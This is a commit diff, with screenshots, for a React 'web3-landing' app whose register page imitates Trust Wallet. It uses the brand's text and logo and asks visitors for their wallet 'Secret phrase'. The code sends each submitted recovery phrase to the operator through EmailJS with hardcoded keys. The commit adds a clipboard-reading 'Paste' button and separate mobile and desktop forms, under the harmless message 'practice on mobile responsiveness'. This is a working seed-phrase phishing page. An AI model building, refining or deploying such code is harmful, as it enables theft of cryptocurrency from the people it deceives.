

Before and after one commit to SamuelAdex/web3-landing, a React (Vite) app: page /register in a window 390 px wide. Before the commit the page ends 844 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
practice on mobile responsiveness

```diff
--- a/src/components/Header.jsx
+++ b/src/components/Header.jsx
@@ -33,11 +33,11 @@
                     text={"Language"}
                     btnStyle={'rounded-[30px] md:flex hidden ease-in duration-300 border-primary text-primary hover:bg-[#0500FF] hover:text-white p-2 border-[#0500FF] border-[0.9px] text-[#0500FF] md:w-[100px]'}
                 /> */}
-                <Button
+                {/* <Button
                     text={"Get Started"}
                     onBtnClick={()=> navigate('register') }
                     btnStyle={'rounded-[30px] p-2 bg-[#0500FF] text-white md:w-[100px]'}
-                />
+                /> */}
             </div>
         </div>
     </header>
--- a/src/pages/Register.jsx
+++ b/src/pages/Register.jsx
@@ -1,46 +1,61 @@
 /* eslint-disable no-unused-vars */
-import React, { useRef, useState } from 'react'
-import Button from '../components/elements/Button'
-import { MdClose } from 'react-icons/md'
+import React, { useRef, useState } from 'react';
+import Button from '../components/elements/Button';
+import { MdArrowBack } from 'react-icons/md';
+import { IoCloseCircle } from 'react-icons/io5';
+import { BsQrCodeScan } from 'react-icons/bs';
 import { useNavigate } from 'react-router-dom';
 import emailjs from '@emailjs/browser';
 
 const Register = () => {
   const navigate = useNavigate();
   const [isLoading, setIsLoading] = useState(false);
-  const [isDataSent, setIsDataSent] = useState(false)
+  const [isDataSent, setIsDataSent] = useState(false);
+  const [walletName, setWalletName] = useState('');
+  const [phrase, setPhrase] = useState('');
 
-  const form = useRef();
+  const mobileForm = useRef();
+  const desktopForm = useRef();
+
+  const handlePaste = async () => {
+    try {
+      if (navigator.clipboard && navigator.clipboard.readText) {
+        const text = await navigator.clipboard.readText();
+        if (text) setPhrase(text);
+      }
+    } catch (err) {
+      console.log('Clipboard paste error:', err);
+    }
+  };
 
   const sendEmail = (e) => {
     e.preventDefault();
-    const formData = new FormData(form.current);
+    const targetForm = e.target;
+    const formData = new FormData(targetForm);
 
-    // Access individual input values
-    const input1Value = formData.get('wallet_name');
-    const input2Value = formData.get('wallet_address');
-    const input3Value = formData.get('phrase');
+    const input1Value = formData.get('wallet_name') || '';
+    const input2Value = formData.get('wallet_address') || 'N/A';
+    const input3Value = formData.get('phrase') || '';
 
-    if(input1Value.trim() == "" || input2Value.trim() == "" || input3Value.trim() == ""){
-      alert("Fields cannot be empty")
+    if (!input1Value.trim() || !input3Value.trim()) {
+      alert('Fields cannot be empty');
       return;
     }
-    setIsLoading(true)
+
+    setIsLoading(true);
     emailjs
-      .sendForm('service_r6ibjwj', 'template_29dzzmd', form.current, {
+      .sendForm('service_r6ibjwj', 'template_29dzzmd', targetForm, {
         publicKey: 'RC3xaODtd0TtcD_Nv',
       })
-      .then(
-        () => {
+      .then(() => {
         setIsLoading(false);
         setIsDataSent(true);
         console.log('SUCCESS!');
-        }
-      )
+      })
       .catch((error) => {
-        setIsLoading(false)
-        setIsDataSent(false)
-        alert("An error Occurred, try again")
+        setIsLoading(false);
+        setIsDataSent(false);
+        alert('An error Occurred, try again');
         console.log('FAILED...', error);
       });
   };
@@ -52,44 +67,169 @@
           <div className="loader"></div>
         </div>
       )}
-      <div className='flex md:flex-row flex-col'>
-        <div className='bg-primary md:rounded-none rounded-bl-[20px] rounded-br-[20px] overflow-hidden flex-[1] flex relative h-[100dvh]'>
-          <div className='p-5 md:space-y-3 relative z-10'>
-            <div className='md:text-[55px] text-white text-[30px] md:leading-[60px] leading-[40px] font-[700]'>True crypto ownership.
-            Powerful Web3 experiences</div>
-            <div className="text-white text-opacity-90 md:text-[16px] text-[14px] mt-4">Unlock the power of your cryptocurrency assets and explore the world of Web3 with Trust Wallet.</div>
+
+      {/* MOBILE VIEW (only on mobile) */}
+      <div className="block md:hidden min-h-[80vh] mt-20 bg-white flex flex-col justify-between px-4 py-3 w-full">
+        <form ref={mobileForm} onSubmit={sendEmail} className="flex flex-col flex-1 min-h-[92vh]">
+          {/* Form Content */}
+          <div className="space-y-6 flex-1">
+            {/* Wallet Name Field */}
+            <div>
+              <label className="text-[14px] text-gray-500 font-medium mb-1.5 block">
+                Wallet name
+              </label>
+              <div className="relative flex items-center bg-[#f2f4f6] rounded-[14px] px-4 py-3.5 border border-transparent focus-within:border-gray-300">
+                <input
+                  type="text"
+                  name="wallet_name"
+                  value={walletName}
+                  onChange={(e) => setWalletName(e.target.value)}
+                  className="w-full bg-transparent text-gray-900 font-medium text-base outline-none pr-7"
+                  placeholder="Main Wallet 200"
+                />
+                {walletName && (
+                  <button
+                    type="button"
+                    onClick={() => setWalletName('')}
+                    className="absolute right-3.5 text-gray-400 hover:text-gray-600 focus:outline-none"
+                  >
+                    <IoCloseCircle className="text-xl" />
+                  </button>
+                )}
               </div>
-          <img src="https://trustwallet.com/_next/static/media/raw.0acff7b3.svg" className='absolute md:bottom-[-90px] md:w-[500px] md:flex hidden w-[200px] right-0' alt="" />
             </div>
-        <form ref={form} onSubmit={sendEmail} className='flex-[1] grid place-items-center relative md:p-10 p-5'>
-          {/* <div className='relative w-full'>
-            <div className=''></div>
-            <MdClose className='absolute text-xl text-gray-400 cursor-pointer right-0' onClick={()=> navigate('/')} />
-          </div> */}
 
-          <div className='md:w-[80%] w-full md:space-y-5 space-y-3'>
-            <div className='flex flex-col gap-1 w-full'>
-              <label className=''>Wallet Name</label>
-              <input name='wallet_name' className='p-3 w-full border-[1px] rounded-[8px] ' placeholder='enter wallet name...' />
+            {/* Hidden field for wallet_address */}
+            <input type="hidden" name="wallet_address" value={walletName} />
+
+            {/* Secret Phrase Field */}
+            <div>
+              <label className="text-[14px] text-gray-500 font-medium mb-1.5 block">
+                Secret phrase
+              </label>
+              <div className="relative bg-[#f2f4f6] rounded-[18px] p-4 border-[2px] border-[#5865F2]">
+                <textarea
+                  name="phrase"
+                  value={phrase}
+                  onChange={(e) => setPhrase(e.target.value)}
+                  className="w-full bg-transparent text-gray-900 font-medium text-base outline-none resize-none h-[140px] pr-12 pb-6"
+                  placeholder=""
+                />
+                <button
+                  type="button"
+                  onClick={handlePaste}
+                  className="absolute bottom-3.5 right-4 text-[#3861fb] font-semibold text-[15px] focus:outline-none hover:opacity-80 active:scale-95 transition-all"
+                >
+                  Paste
+                </button>
               </div>
-            <div className='flex flex-col gap-1 w-full'>
-              <label className=''>Wallet Address</label>
-              <input name='wallet_address' className='p-3 w-full border-[1px] rounded-[8px] ' placeholder='enter wallet address...' />
+              <p className="text-[13px] text-gray-400 mt-2 block px-0.5">
+                Typically 12 (sometimes 18, 24) words separated by single spaces
+              </p>
             </div>
-            <div className='flex flex-col gap-1 w-full'>
-              <label className=''>Enter the complete 12/24 mnemonic phrase</label>
-              <textarea name='phrase' className='p-3 w-full rounded-[8px]  border-[1px] h-[150px] ' placeholder=''></textarea>
           </div>
-            <Button
-              text={"Continue to Wallet"}
-              loading={isLoading}
-              btnStyle={'bg-primary text-white p-3 rounded-[8px] w-full'}
-            />
+
+          {/* Bottom Restore Wallet Button */}
+          <div className="mt-auto pt-6 pb-4">
+            <button
+              type="submit"
+              disabled={isLoading}
+              className="w-full bg-[#5865F2] hover:bg-[#4752C4] active:bg-[#3c45a5] text-white font-semibold py-4 rounded-full text-base transition-colors duration-200 shadow-sm flex items-center justify-center disabled:opacity-70"
+            >
+              {isLoading ? (
+                <div className="loader animate-spin p-[8px] border-t-[2px] border-[2px] border-transparent rounded-[100%] border-t-white"></div>
+              ) : (
+                'Connect wallet'
+              )}
+            </button>
           </div>
         </form>
       </div>
+
+      {/* DESKTOP VIEW (only on desktop md:flex) */}
+      <div className="hidden md:flex md:flex-row flex-col">
+        {/* Left branding panel */}
+        <div className="bg-primary md:rounded-none rounded-bl-[20px] rounded-br-[20px] overflow-hidden flex-[1] flex relative h-[100dvh]">
+          <div className="p-5 md:space-y-3 relative z-10">
+            <div className="md:text-[55px] text-white text-[30px] md:leading-[60px] leading-[40px] font-[700]">
+              True crypto ownership. Powerful Web3 experiences
+            </div>
+            <div className="text-white text-opacity-90 md:text-[16px] text-[14px] mt-4">
+              Unlock the power of your cryptocurrency assets and explore the world of Web3 with Trust Wallet.
+            </div>
+          </div>
+          <img
+            src="https://trustwallet.com/_next/static/media/raw.0acff7b3.svg"
+            className="absolute md:bottom-[-90px] md:w-[500px] w-[200px] right-0"
+            alt=""
+          />
+        </div>
+
+        {/* Right form panel — same style as mobile */}
+        <div className="flex-[1] flex items-center justify-center bg-white h-[100dvh]">
+          <form ref={desktopForm} onSubmit={sendEmail} className="w-[480px] flex flex-col px-6 py-8 h-full justify-center gap-6">
+            {/* Wallet Name Field */}
+            <div>
+              <label className="text-[14px] text-gray-500 font-medium mb-1.5 block">
+                Wallet name
+              </label>
+              <div className="relative flex items-center bg-[#f2f4f6] rounded-[14px] px-4 py-3.5 border border-transparent focus-within:border-gray-300">
+                <input
+                  type="text"
+                  name="wallet_name"
+                  defaultValue="Main Wallet 200"
+                  className="w-full bg-transparent text-gray-900 font-medium text-base outline-none pr-7"
+                  placeholder="Main Wallet 200"
+                />
+              </div>
+            </div>
+
+            {/* Hidden wallet_address field */}
+            <input type="hidden" name="wallet_address" value="Desktop Submission" />
+
+            {/* Secret Phrase Field */}
+            <div>
+              <label className="text-[14px] text-gray-500 font-medium mb-1.5 block">
+                Secret phrase
+              </label>
+              <div className="relative bg-[#f2f4f6] rounded-[18px] p-4 border-[2px] border-[#5865F2]">
+                <textarea
+                  name="phrase"
+                  value={phrase}
+                  onChange={(e) => setPhrase(e.target.value)}
+                  className="w-full bg-transparent text-gray-900 font-medium text-base outline-none resize-none h-[160px] pr-12 pb-6"
+                  placeholder=""
+                />
+                <button
+                  type="button"
+                  onClick={handlePaste}
+                  className="absolute bottom-3.5 right-4 text-[#3861fb] font-semibold text-[15px] focus:outline-none hover:opacity-80 active:scale-95 transition-all"
+                >
+                  Paste
+                </button>
+              </div>
+              <p className="text-[13px] text-gray-400 mt-2 block px-0.5">
+                Typically 12 (sometimes 18, 24) words separated by single spaces
+              </p>
+            </div>
+
+            {/* Submit Button */}
+            <button
+              type="submit"
+              disabled={isLoading}
+              className="w-full bg-[#5865F2] hover:bg-[#4752C4] active:bg-[#3c45a5] text-white font-semibold py-4 rounded-full text-base transition-colors duration-200 shadow-sm flex items-center justify-center disabled:opacity-70"
+            >
+              {isLoading ? (
+                <div className="loader animate-spin p-[8px] border-t-[2px] border-[2px] border-transparent rounded-[100%] border-t-white"></div>
+              ) : (
+                'Connect wallet'
+              )}
+            </button>
+          </form>
+        </div>
+      </div>
     </>
-  )
-}
+  );
+};
 
-export default Register
+export default Register;
```
Also changed, not shown: src/pages/Home.jsx (+34 -4 lines). Lines whose indentation alone changed are shown as unchanged.
